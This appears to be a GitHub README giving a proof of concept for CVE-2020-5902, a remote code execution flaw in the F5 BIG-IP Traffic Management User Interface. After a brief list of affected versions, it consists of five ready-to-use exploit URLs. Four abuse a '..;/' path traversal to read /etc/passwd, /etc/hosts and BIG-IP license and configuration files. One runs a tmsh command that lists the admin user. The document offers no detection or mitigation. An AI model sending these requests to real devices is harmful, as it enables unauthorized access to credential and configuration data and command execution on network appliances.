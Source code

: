 # CVE-2020-5902/F5 RCE&ReadFile

# Summary
In BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1, the Traffic Management User Interface (TMUI), also referred to as the Configuration utility, has a Remote Code Execution (RCE) vulnerability in undisclosed pages. 

# Proof of concept

```
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```

```
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts
```

```
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
```

```
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
```

```
https://<IP>/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

